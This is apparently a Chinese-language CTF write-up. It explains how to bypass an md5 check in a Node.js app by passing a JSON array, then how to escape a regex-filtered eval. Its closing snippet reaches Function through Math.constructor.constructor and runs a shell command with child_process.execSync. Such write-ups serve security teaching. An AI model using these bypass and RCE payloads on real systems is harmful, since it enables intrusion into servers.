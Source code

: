 ```
  }
  if (results.length > 13) {
    results.pop();
  }
  req.session.results = results;
  res.send(render(req.session.results));
});
```

首先要进行md5绕过，我们利用数组绕过好了

原理大概是

```
[1]+'1'//'11'
'1'+'1'//'11'
[1]!=='1'
[1]+'1'==='1'+'1'
```

但我们要注意的是Content-type是application/json，我们需要使用json格式进行传参

```
{"e":"2-1","first":"1","second":[1]}
```

![image-20241030203233925](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410302032036.png)

然后我们可以通过修改e来进行rce

```
result = saferEval(req.body.e) || 'Wrong Wrong Wrong!!!';
```

```
function saferEval(str) {
    if (str.replace(/(?:Math(?:\.\w+)?)|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)| /g, '')) {
        return null;
   //不是赋值
    return eval(str);
} // 2020.4/WORKER1 淦，上次的库太垃圾，我自己写了一个

```

它会把满足正则表达式的部分全部删除后才能执行

我们来看一下这个正则，第一部分类似Math.xxx或者只有Math这样的，第二部分可以包括这些字符

[()+\-*/&|^%<>=,?:

第三部分是以一定数字开头，然后跟0或者1个点，然后任意的数字，然后0或者一个类似`e1111`这样的。感觉这是整数，浮点数和科学计数法。

正则理清的话就是如何rce了。首先就是拿到Function：

![image-20241030205336642](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410302053690.png)

我们利用constructor这个构造函数属性就可以拿到Function，然后拿到了Function，正常可以这样rce

```
let a=Math.constructor.constructor
console.log(a("return process.mainModule.require('child_process').execSync('dir').toString()")())
```
